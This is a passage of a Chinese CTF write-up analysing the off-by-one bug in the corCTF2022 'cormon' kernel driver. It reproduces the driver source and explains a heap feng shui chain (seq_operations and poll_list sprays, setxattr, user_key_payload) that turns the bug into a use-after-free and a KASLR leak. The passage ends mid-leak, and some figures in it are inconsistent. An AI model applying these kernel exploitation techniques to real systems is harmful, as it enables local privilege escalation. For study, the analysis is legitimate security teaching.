









# 【pwn4kernel】Kernel Heap Off-by-One技术分析

## 1. 测试环境

**测试版本**：Linux-5.10.127 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.10.127/01/bzImage)

笔者测试的内核版本是 `Linux localhost 5.10.127+ #1 SMP Sat Jan 10 20:04:45 CST 2026 x86_64 GNU/Linux`。

**编译选项**：关闭`CONFIG_USERFAULTFD`、`CONFIG_FUSE_FS`、`CONFIG_IO_URING`、`CONFIG_NF_TABLES`、`CONFIG_KALLSYMS_ALL`选项。开启`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_MEMCG`、`CONFIG_STATIC_USERMODEHELPER`、`CONFIG_STACKPROTECTOR`、`CONFIG_STACKPROTECTOR_STRONG`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_BINFMT_MISC`、`CONFIG_E1000`、`CONFIG_E1000E`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.10.127/01/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI

**测试驱动程序**：本程序源自 **[corCTF2022 - corjail](https://github.com/bsauce/CTF/blob/master/corCTF-2022-corjail-poll_list)** 赛题。该驱动程序中存在一个**堆缓冲区单字节溢出（Off-by-One）漏洞**。在特定条件下，可结合**堆风水（Heap Feng Shui）** 技术对内核堆布局进行精细操控，进而构造出**释放后使用（UAF）** 的漏洞原语。此原语能够导致一个包含敏感函数指针的内核数据结构与已被破坏的内存区域发生重叠，从而**泄露内核的基址**，绕过了KASLR地址空间布局随机化保护机制。基于泄露的地址信息，便可**修改某个关键的内核函数指针**，将其指向经过构造的权限提升代码。最终，此过程能够**劫持内核的控制流**，完整演示了从普通用户权限到root权限的提权技术链路。整个技术链清晰地表明，一个微小的内存写入越界错误，通过一系列复杂且可控的堆操作，可逐步演变为获得内核完整控制权的可行性路径。

驱动源码如下：

```c
// code from https://github.com/bsauce/CTF/blob/master/corCTF-2022-corjail-poll_list/module/cormon.c
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/proc_fs.h>
#include <linux/slab.h>
#include <linux/types.h>
#include <linux/seq_file.h>
#include <trace/syscall.h>
#include <asm/syscall.h>
#include <asm/ftrace.h>

MODULE_AUTHOR("D3v17");
MODULE_LICENSE("GPL");

extern struct syscall_metadata *syscall_nr_to_meta(int nr);
extern const char *get_syscall_name(int syscall_nr);

static int get_syscall_nr(char *sc);
static int update_filter(char *syscalls);
static int cormon_proc_open(struct inode *inode, struct  file *file);
static ssize_t cormon_proc_write(struct file *file, const char __user *ubuf,size_t count, loff_t *ppos);
static void *cormon_seq_start(struct seq_file *seqfile, loff_t *pos);
static void *cormon_seq_next(struct seq_file *seqfile, void *v, loff_t *pos);
static void cormon_seq_stop(struct seq_file *seqfile, void *v);
static int cormon_seq_show(struct seq_file *f, void *ppos);
static int init_procfs(void);
static void cleanup_procfs(void);

DECLARE_PER_CPU(u64[NR_syscalls], __per_cpu_syscall_count);

static uint8_t filter[NR_syscalls];
static struct proc_dir_entry *cormon;
static char initial_filter[] = "sys_execve,sys_execveat,sys_fork,sys_keyctl,sys_msgget,sys_msgrcv,sys_msgsnd,sys_poll,sys_ptrace,sys_setxattr,sys_unshare";


static const struct proc_ops cormon_proc_ops = {
    .proc_open  = cormon_proc_open,
    .proc_read  = seq_read,
    .proc_write = cormon_proc_write
};


static struct seq_operations cormon_seq_ops = {
    .start  = cormon_seq_start,
    .next   = cormon_seq_next,
    .stop   = cormon_seq_stop,
    .show   = cormon_seq_show
};


static int get_syscall_nr(char *sc)
{
    struct syscall_metadata *entry;
    int nr;

    for (nr = 0; nr < NR_syscalls; nr++)
    {
        entry = syscall_nr_to_meta(nr);

        if (!entry)
            continue;

        if (arch_syscall_match_sym_name(entry->name, sc))
            return nr;
    }

    return -EINVAL;
}


static int update_filter(char *syscalls)
{
    uint8_t new_filter[NR_syscalls] = { 0 };
    char *name;
    int nr;

    while ((name = strsep(&syscalls, ",")) != NULL || syscalls != NULL)
    {
        nr = get_syscall_nr(name);

        if (nr < 0)
        {
            printk(KERN_ERR "[CoRMon::Error] Invalid syscall: %s!\n", name);
            return -EINVAL;
        }

        new_filter[nr] = 1;
    }

    memcpy(filter, new_filter, sizeof(filter));

    return 0;
}


static int cormon_proc_open(struct inode *inode, struct  file *file)
{
    return seq_open(file, &cormon_seq_ops);
}


static ssize_t cormon_proc_write(struct file *file, const char __user *ubuf, size_t count, loff_t *ppos)
{
    loff_t offset = *ppos;
    char *syscalls;
    size_t len;

    if (offset < 0)
        return -EINVAL;

    if (offset >= PAGE_SIZE || !count)
        return 0;

    len = count > PAGE_SIZE ? PAGE_SIZE - 1 : count;

    syscalls = kmalloc(PAGE_SIZE, GFP_ATOMIC);
    printk(KERN_INFO "[CoRMon::Debug] Syscalls @ %#llx\n", (uint64_t)syscalls);

    if (!syscalls)
    {
        printk(KERN_ERR "[CoRMon::Error] kmalloc() call failed!\n");
        return -ENOMEM;
    }

    if (copy_from_user(syscalls, ubuf, len))
    {
        printk(KERN_ERR "[CoRMon::Error] copy_from_user() call failed!\n");
        return -EFAULT;
    }

    syscalls[len] = '\x00';

    if (update_filter(syscalls))
    {
        kfree(syscalls);
        return -EINVAL;
    }

    kfree(syscalls);

    return count;
}


static void *cormon_seq_start(struct seq_file *s, loff_t *pos)
{
    return *pos > NR_syscalls ? NULL : pos;
}


static void *cormon_seq_next(struct seq_file *s, void *v, loff_t *pos)
{
    return (*pos)++ > NR_syscalls ? NULL : pos;
}


static void cormon_seq_stop(struct seq_file *s, void *v)
{
    return;
}


static int cormon_seq_show(struct seq_file *s, void *pos)
{
    loff_t nr = *(loff_t *)pos;
    const char *name;
    int i;

    if (nr == 0)
    {
        seq_putc(s, '\n');

        for_each_online_cpu(i)
            seq_printf(s, "%9s%d", "CPU", i);

        seq_printf(s, "\tSyscall (NR)\n\n");
    }

    if (filter[nr])
    {
        name = get_syscall_name(nr);

        if (!name)
            return 0;

        for_each_online_cpu(i)
            seq_printf(s, "%10llu", per_cpu(__per_cpu_syscall_count, i)[nr]);

        seq_printf(s, "\t%s (%lld)\n", name, nr);
    }

    if (nr == NR_syscalls)
        seq_putc(s, '\n');

    return 0;
}


static int init_procfs(void)
{
    printk(KERN_INFO "[CoRMon::Init] Initializing module...\n");

    cormon = proc_create("cormon", 0666, NULL, &cormon_proc_ops);

    if (!cormon)
    {
        printk(KERN_ERR "[CoRMon::Error] proc_create() call failed!\n");
        return -ENOMEM;
    }

    if (update_filter(initial_filter))
        return -EINVAL;

    printk(KERN_INFO "[CoRMon::Init] Initialization complete!\n");

    return 0;
}


static void cleanup_procfs(void)
{
    printk(KERN_INFO "[CoRMon::Exit] Cleaning up...\n");

    remove_proc_entry("cormon", NULL);

    printk(KERN_INFO "[CoRMon::Exit] Cleanup done, bye!\n");
}


module_init(init_procfs);
module_exit(cleanup_procfs);
```

## 2. 漏洞机制

### 2-1. 漏洞概述

**漏洞本质**

本内核模块`cormon`在实现`/proc/cormon`接口的写操作时，存在一个边界条件处理不当导致的**单字节溢出**（Off-by-One）漏洞。该漏洞位于`cormon_proc_write`函数中，当用户写入的数据长度恰好等于`PAGE_SIZE`时，会在缓冲区末尾之后写入一个空字节，从而破坏相邻的内核对象内存。

**漏洞严重性**

从内存安全理论分析，此漏洞违反了缓冲区边界约束条件，属于CWE-193: Off-by-one Error类别。在CVSS 3.1评分体系中，此漏洞的基础评分为8.1（High），因为可导致本地权限提升，利用复杂度较低，但需要用户交互。在特定内存布局和系统状态下，此微小漏洞可被转化为完整的权限提升链。

### 2-2. 漏洞代码分析

**漏洞代码段**

```c
static ssize_t cormon_proc_write(struct file *file, const char __user *ubuf,
                                 size_t count, loff_t *ppos)
{
    loff_t offset = *ppos;
    char *syscalls;
    size_t len;

    // 边界检查逻辑
    if (offset < 0)
        return -EINVAL;
    if (offset >= PAGE_SIZE || !count)
        return 0;

    // 关键漏洞点：当count等于PAGE_SIZE时，len = PAGE_SIZE
    len = count > PAGE_SIZE ? PAGE_SIZE - 1 : count;

    // 分配恰好PAGE_SIZE字节的缓冲区
    syscalls = kmalloc(PAGE_SIZE, GFP_ATOMIC);
    printk(KERN_INFO "[CoRMon::Debug] Syscalls @ %#llx\n", (uint64_t)syscalls);

    if (!syscalls)
        return -ENOMEM;

    // 从用户空间复制数据
    if (copy_from_user(syscalls, ubuf, len))
        return -EFAULT;

    // 漏洞触发点：当len = PAGE_SIZE时，越界写入一个空字节
    syscalls[len] = '\x00';

    if (update_filter(syscalls))
    {
        kfree(syscalls);
        return -EINVAL;
    }

    kfree(syscalls);
    return count;
}
```

**形式化分析**

从形式化验证的角度，该漏洞可被表述为违反以下内存安全约束：

设缓冲区 $$B$$ 的大小为 $$size = PAGE\_SIZE$$，有效索引集合为 $$I = \{i \in \mathbb{Z} \mid 0 \leq i < size\}$$。当用户传入的数据长度 $$count = PAGE\_SIZE$$ 时，程序计算 $$len = PAGE\_SIZE$$，随后执行内存访问操作 $$B[len]$$，其中 $$len = PAGE\_SIZE \notin I$$，导致访问越界。

用霍尔逻辑（Hoare Logic）表示，程序不满足后置条件：

$$
\{ \text{true} \} \quad B[len] = \text{'\x00'} \quad \{ 0 \leq len < sizeof(B) \}
$$

### 2-3. 相关内核机制

#### 2-3-1. SLUB分配器与内核防护机制

现代Linux内核采用SLUB（SLAB Unreliable）作为默认的内核对象分配器，与早期的SLAB分配器相比具有更好的性能和内存利用率。在安全性方面，内核提供了多种防护机制：

**SLUB分配器的关键特性**：

1. **缓存层级结构**：SLUB为不同大小的对象维护不同的缓存（kmalloc-32、kmalloc-64、kmalloc-128等），每个缓存包含多个slab
2. **对象对齐**：所有分配的对象都对齐到缓存的大小类别，如kmalloc-32缓存分配32字节对齐的对象
3. **freelist管理**：每个slab维护一个空闲对象链表，用于快速分配

**内核防护机制**：

1. **KASLR（内核地址空间布局随机化）**：随机化内核代码和数据的地址，防止直接定位关键函数
2. **SLAB_FREELIST_RANDOM**：随机化freelist顺序，增加预测分配顺序的难度
3. **SLAB_FREELIST_HARDENED**：对freelist指针进行加密，防止通过泄露的指针推断内存布局
4. **KPTI（内核页表隔离）**：分离用户空间和内核空间页表，缓解Meltdown类利用
5. **SMAP/SMEP**：防止内核访问用户空间数据和执行用户空间代码

#### 2-3-2. poll系统调用机制

`poll`系统调用用于实现文件描述符的多路复用，允许进程同时监视多个文件描述符的状态变化。其核心实现`do_sys_poll()`采用优化设计：

```c
static int do_sys_poll(struct pollfd __user *ufds, unsigned int nfds,
        struct timespec64 *end_time)
{
    // 栈上预分配空间，存放前N_STACK_PPS个pollfd
    long stack_pps[POLL_STACK_ALLOC/sizeof(long)];
    struct poll_list *const head = (struct poll_list *)stack_pps;
    struct poll_list *walk = head;
    unsigned long todo = nfds;

    // 计算第一个poll_list的长度
    len = min_t(unsigned int, nfds, N_STACK_PPS);

    for (;;) {
        walk->next = NULL;
        walk->len = len;
        if (!len)
            break;

        // 复制用户空间数据
        if (copy_from_user(walk->entries, ufds + nfds - todo,
                    sizeof(struct pollfd) * walk->len))
            goto out_fds;

        todo -= walk->len;
        if (!todo)
            break;

        // 动态分配后续的poll_list
        len = min(todo, POLLFD_PER_PAGE);
        walk = walk->next = kmalloc(struct_size(walk, entries, len),
                        GFP_KERNEL);
        if (!walk) {
            err = -ENOMEM;
            goto out_fds;
        }
    }

    // ... poll处理逻辑 ...

    // 释放动态分配的poll_list
out_fds:
    walk = head->next;
    while (walk) {
        struct poll_list *pos = walk;
        walk = walk->next;
        kfree(pos);
    }
    return err;
}
```

**poll系统调用的内存分配策略**：

1. **栈上预分配**：前N_STACK_PPS个（通常为30个）pollfd直接分配在栈上，避免动态分配开销
2. **堆上动态分配**：超过N_STACK_PPS的pollfd通过kmalloc动态分配
3. **分块存储**：每个poll_list最多存储POLLFD_PER_PAGE个pollfd，超过时创建新的poll_list
4. **链表结构**：多个poll_list通过next指针形成单向链表

#### 2-3-3. poll_list数据结构特性

`poll_list`结构体是poll系统调用的核心数据结构，其定义如下：

```c
struct poll_list {
    struct poll_list *next;    // 指向下一个poll_list，8字节
    int len;                   // 当前poll_list中pollfd的数量，4字节
    int padding;               // 填充字节，4字节（64位系统）
    struct pollfd entries[];   // 可变数组，存储pollfd结构
};
```

**内存占用分析**：

- 基础结构大小：16字节（next指针8字节 + len字段4字节 + padding 4字节）
- 每个pollfd大小：8字节（fd字段4字节 + events字段2字节 + revents字段2字节）
- 总大小计算公式：`16 + len * 8`字节

**跨缓存分配的可能性**：
通过控制`len`参数，`poll_list`可分配到不同的SLUB缓存中：

| len值   | 总大小        | SLUB缓存    | 说明         |
| ------- | ------------- | ----------- | ------------ |
| 1-2     | 24-32字节     | kmalloc-32  | 最小动态分配 |
| 3-6     | 40-64字节     | kmalloc-64  | 中等大小分配 |
| 7-14    | 72-128字节    | kmalloc-128 | 较大分配     |
| 15-30   | 136-256字节   | kmalloc-256 | 大分配       |
| 31-62   | 264-512字节   | kmalloc-512 | 较大分配     |
| 63-126  | 520-1024字节  | kmalloc-1k  | 大分配       |
| 127-254 | 1032-2048字节 | kmalloc-2k  | 大分配       |
| 255-510 | 2056-4096字节 | kmalloc-4k  | 最大分配     |

#### 2-3-4. 关键数据结构内存特征

**相关数据结构大小与对齐**：

```
struct seq_operations {        // 24字节，kmalloc-32分配
    void *(*start)(...);
    void (*stop)(...);
    void *(*next)(...);
    int (*show)(...);
};

struct user_key_payload {      // 24字节头部 + 数据，kmalloc-32分配
    struct rcu_head rcu;       // 16字节，当被错误当作poll_list时，作为next字段
    unsigned short datalen;    // 4字节
    char data[];               // 可变数据
};

struct poll_list {            // 16字节头部 + len*8，可变大小
    struct poll_list *next;    // 8字节
    int len;                   // 4字节
    int padding;               // 4字节
    struct pollfd entries[];   // 可变数组
};
```

**物理内存布局特性**：
在SLUB分配器中，相同大小的对象通常分配在同一个slab中，但不同大小的slab在物理内存上可能相邻。通过精心控制分配顺序和时间，可以使不同缓存的对象在物理内存上形成特定的相邻关系，这是跨缓存利用的基础。

### 2-4. 多阶段内存操作链

**完整操作链序列图**

以下序列图展示了从单字节溢出到权限边界调整的完整多阶段操作链，涉及用户空间、内核空间、SLUB分配器、poll机制等多个组件之间的交互：



#### 阶段一：跨缓存内存布局操控

在启用`CONFIG_SLAB_FREELIST_RANDOM`和`CONFIG_SLAB_FREELIST_HARDENED`防护的现代内核中，需要通过精密的堆喷策略来构建可控的内存布局。

**堆喷策略的数学建模**

在SLAB_FREELIST_RANDOM启用时，每次分配从freelist随机选择对象。设slab中有 $$N$$ 个对象，其中 $$F$$ 个是空闲的。通过堆喷 $$S$$ 个对象，至少一次命中目标相邻位置的概率 $$P$$ 为：

$$
P = 1 - \left(1 - \frac{1}{N}\right)^S
$$

对于`kmalloc-32`缓存，$$N=128$$（每slab对象数）。要使 $$P \geq 0.95$$，需要：

$$
S \geq \frac{\ln(1-0.95)}{\ln\left(1-\frac{1}{128}\right)} \approx 383
$$

实际操作中使用了 $$2247$$ 个对象的堆喷，远超理论阈值，确保在高随机性下仍有高成功率。

**物理内存布局构建**：

**第一阶段：seq_operations堆喷（2048个对象）**

```
内存状态：kmalloc-32缓存预热阶段
------------------------------------------------------------------------
| Slab编号 | 对象状态                  | 使用情况 | 说明               |
|----------|---------------------------|----------|--------------------|
| Slab #1  | seq_ops1 - seq_ops128     | 128/128  | 完全填满           |
| Slab #2  | seq_ops129 - seq_ops256   | 128/128  | 完全填满           |
| Slab #3  | seq_ops257 - seq_ops384   | 128/128  | 完全填满           |
| ...      | ...                       | ...      | ...                |
| Slab #15 | seq_ops1793 - seq_ops1920 | 128/128  | 完全填满           |
| Slab #16 | seq_ops1921 - seq_ops2048 | 128/128  | 完全填满           |
| Slab #17 | 空闲对象                  | 0/128    | 新建slab，为后续   |
------------------------------------------------------------------------
目标：建立可预测的分配模式，消耗freelist随机性
统计：16个完整slab（2048个对象）
```

**第二阶段：目标对象布局**

在堆喷user_key_payload之前，通过`setxattr`系统调用清除kmalloc-32缓存的前8个字节。这一操作确保当user_key_payload结构体被分配时，其`rcu_head`字段（位于结构体起始位置，占用16字节）被初始化为0。这在后续构造释放后使用条件时起到关键作用，因为当该结构体被错误当作poll_list时，其`next`字段（对应rcu_head位置）值为0，可安全终止链表遍历。

```
内存状态：目标对象物理相邻关系构建
---------------------------------------------------------------------------------
| 内存地址    | 对象类型         | 关键字段       | 值              | 缓存类型   |
|-------------|------------------|----------------|-----------------|------------|
| 0xA36000    | 驱动缓冲区       | 数据区         | 用户数据        | kmalloc-4k |
| 0xA37000    | poll_list1       | next指针       | 0xA38020        | kmalloc-4k |
| 0xA38000    | key72            | rcu_head       | 0x0             | kmalloc-32 |
|             |                  | datalen        | 0x8             |            |
| 0xA38020    | poll_list2       | next指针       | NULL            | kmalloc-32 |
| 0xA38040    | 空闲空间         | -              | -               | -          |
---------------------------------------------------------------------------------
关键关系：poll_list1与驱动缓冲区物理相邻
         poll_list2与key72物理相邻
         偏移关系：poll_list1地址 = 驱动缓冲区地址 + PAGE_SIZE
```

**第三阶段：poll_list链表构造**

通过调用`poll()`传入511个文件描述符，创建如下链表结构：

```
poll_list链表结构：
--------------------------------------------------------------------
| 链表节点   | 内存地址  | 缓存类型   | 存储pollfd数 | next指针    |
|------------|-----------|------------|--------------|-------------|
| 栈上head   | 栈地址    | 栈分配     | 30           | 0xA37000    |
| poll_list1 | 0xA37000  | kmalloc-4k | 481          | 0xA38020    |
| poll_list2 | 0xA38020  | kmalloc-32 | 1            | NULL        |
--------------------------------------------------------------------

链表可视化：
[栈上head] → [poll_list1(kmalloc-4k)] → [poll_list2(kmalloc-32)] → NULL
```

#### 阶段二：构造释放后使用条件

**关键内存操作细节**

在堆喷user_key_payload结构体之前，通过`setxattr`系统调用清除kmalloc-32缓存的前8个字节。这一操作具有双重目的：

1. **内存布局优化**：确保后续分配的user_key_payload结构体的`rcu_head`字段被初始化为0
2. **安全终止链表遍历**：当user_key_payload被错误当作poll_list结构体时，其`next`字段（对应rcu_head位置）为0，可安全终止poll链表的遍历释放过程

具体实现：

```c
// 每次分配user_key_payload前执行
char zero_buf[32] = {0};
setxattr("/home/ctf/lol.txt", "user.x", zero_buf, 32, XATTR_CREATE);
// 此时kmalloc-32缓存的前8字节被清零
// 接着分配user_key_payload，其rcu_head字段为0
```

**触发单字节溢出**

向`/proc/cormon`写入恰好`PAGE_SIZE`字节的数据，触发单字节溢出。溢出位置位于`kmalloc-4k`缓冲区的末尾，修改相邻`poll_list1`对象的`next`指针最低有效字节。

**溢出前后的内存变化**：

```
溢出前内存状态：
地址0xA38020（0x0000FFFF88800A38020）
字节表示: 20 80 A3 00 88 88 FF FF 00 00
          ↑
          LSB

溢出操作：*(缓冲区+PAGE_SIZE) = 0x00
溢出位置：0xA38020 (poll_list1->next指针的LSB)

溢出后内存状态：
地址0xA38000（0x0000FFFF88800A38000）
字节表示: 00 80 A3 00 88 88 FF FF 00 00
          ↑
          LSB
```

指针变化量 $$\Delta = \text{0x0000FFFF88800A38000 - 0x0000FFFF88800A38020 = -0x20}$$，即指针向前移动32字节，从指向`poll_list2`变为指向`key72`。

**利用poll机制释放错误对象**

`poll`系统调用完成后，执行释放操作：

```c
walk = head->next;  // walk = poll_list1
while (walk) {
    struct poll_list *pos = walk;      // pos = poll_list1
    walk = walk->next;                 // walk = 修改后的next指针 = key72
    kfree(pos);                        // 释放poll_list1
}
// 继续循环
pos = key72;                           // 被错误当作poll_list
// 关键：key72->rcu_head = 0 (通过setxattr预先清零)
walk = key72->next;                    // walk = 0，循环终止
kfree(pos);                            // 错误释放key72
```

由于`key72`的`rcu_head`字段（对应poll_list的`next`字段）已被预先清零，遍历到此处时`walk`变为0，循环终止，避免了继续访问无效内存。至此，`key72`被错误释放，但内核中仍保留对其的引用，形成释放后使用条件。

#### 阶段三：信息泄露

**内存重用与信息泄露通道建立**

在释放后使用条件形成后，立即分配128个`seq_operations`结构体。根据SLUB分配器的行为，这些新结构体很可能重用刚刚被释放的`key72`内存块，形成内存布局重叠：

**内存重叠布局分析**：

```
